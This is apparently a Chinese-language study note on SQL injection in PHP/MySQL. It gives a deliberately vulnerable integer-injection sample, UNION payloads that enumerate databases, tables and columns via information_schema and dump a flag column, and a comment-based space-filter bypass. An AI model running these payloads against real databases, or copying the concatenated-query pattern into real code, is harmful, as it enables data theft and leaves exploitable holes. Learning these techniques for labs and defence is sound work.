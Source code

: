 ## 注入原理

在 php 中, 我们可以使用如下语句来操作一个 MySQL 数据库:

```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

在 php 中, `.` 的语法表示字符串的拼接. 我们如果传入一个 1, 则会调用如下查询语句:

```php
$sql = "SELECT username,password FROM users WHERE id = 1";
```

假设程序没有做任何的过滤和限制, 则存在 SQL 注入漏洞. 比如我们可以在这个 1 后面, 写更多的 Sql 语句, 比如这样子:

```php
$_GET["id"] ="1 union select username,password from user"
```

则可以访问到所有的用户名和密码. 因为原本的语句已经变成了:

```php
$sql = "SELECT username,password FROM users WHERE id = 1 union select username,password from user;"
```

## 常见绕过方式

### 整型注入

参考源代码如下, 该段代码为经典的整型注入漏洞源码.

```php
<meta charset="utf-8">
<?php
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    $host = 'localhost';
    $user = 'admin';
    $pass = 'root';
    $conn = mysqli_connect($host, $user, $pass, 'test');
    if (!$conn) {
        die('连接失败:' . mysqli_error($conn));
    }
    mysqli_query($conn, "set names utf8"); //设置编码, 防止中文乱码

    $sql = "SELECT id,username from users where id=$id";
    $result = mysqli_query($conn, $sql);
    if (!$result) {
        die("无法取得数据: " . mysqli_error($conn));
    }

    echo '<h2>MYSql Test';
    echo '<table border="1"><tr><td>ID</td><td>Username</td></tr>';
    while ($row = mysqli_fetch_array($result, MYSQLI_ASSOC)) {
        echo "<tr><td> {$row['id']}</td>".
            "<td>{$row['username']}</td>".
            "</tr>";
    }
    echo '</table>';
    mysqli_close($conn);
} else {
    echo '试试 ?id=1';
}
```

首先, 我们应该确认列数. 只要 SQL 语句没有报错, 则成立, 取成立的最大值即可.

这里使用 `Order by 1~n` 来判断列数. 当 n=3 的时候, 代码报错, 说明其实只有两列

![[attachments/Pasted image 20250412213808.png]]

随后, 使用联合查询 Union, 获取所有的数据库名称:

```sql
1 union SELECT 1,schema_name FROM information_schema.schemata;
```

![[attachments/Pasted image 20250412214008.png]]

有了所有数据库的名称, 就可以查看需要查询的数据库的表名是什么了:

```php
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=/*数据库名称 需要加引号*/"admin";
```

本题查询 `test` 表, 可以看到如下内容:

![[attachments/Pasted image 20250412214807.png]]

随后, 可以查询对应列的内容. (这里和上面不同的是, 使用的是 `.columns`)

```php
1 union select 1,group_concat(column_name) from information_schema.columns where table_schema="test";
```

![[attachments/Pasted image 20250412215100.png]]

随后, 获取对应的列的内容是什么:

```php
1 union select 1,group_concat(i_am_f1ag_column/*列*/) from f1ag_table/*表*/
```

![[attachments/Pasted image 20250412220003.png]]

> [!warning] 注意
> 这里的列名和表名都没有引号!  直接写即可, 否则会报错.

### 字符型注入

TODO

### 空格过滤绕过

如果需要过滤空格, 可以使用注释 `/**/` 来绕过. 直接放在语句中间即可代表空格, 比如这样子的 payload:

```sql
SELECT/*替换空格*/password/**/FROM/**/Members
```